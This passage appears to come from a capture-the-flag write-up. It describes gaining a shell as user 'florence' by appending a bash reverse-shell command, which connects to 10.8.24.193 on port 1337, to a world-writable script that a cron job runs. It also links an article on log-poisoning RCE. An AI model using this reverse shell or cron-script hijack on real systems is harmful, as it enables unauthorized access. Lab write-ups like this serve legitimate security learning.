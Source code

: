 Knowing this i refer to this writeup to get revshell&#x20;

[https://www.hackingarticles.in/rce-with-lfi-and-ssh-log-poisoning/](https://www.hackingarticles.in/rce-with-lfi-and-ssh-log-poisoning/)

Found a cron job running as florence:

\* \* \* \* \* florence /bin/backup.sh >> /tmp/cron-florence.log 2>&1

1.  Checked the script permissions:

    -rwxrwxrwx 1 florence florence /bin/backup.sh

Added a payload to the scrip

echo 'bash -i >& /dev/tcp/10.8.24.193/1337 0>&1' >> /bin/backup.sh

1. Waited for cron to execute (every minute). The script ran with florence privileges, giving us a shell as florence.
2. Flag is in florence.txt
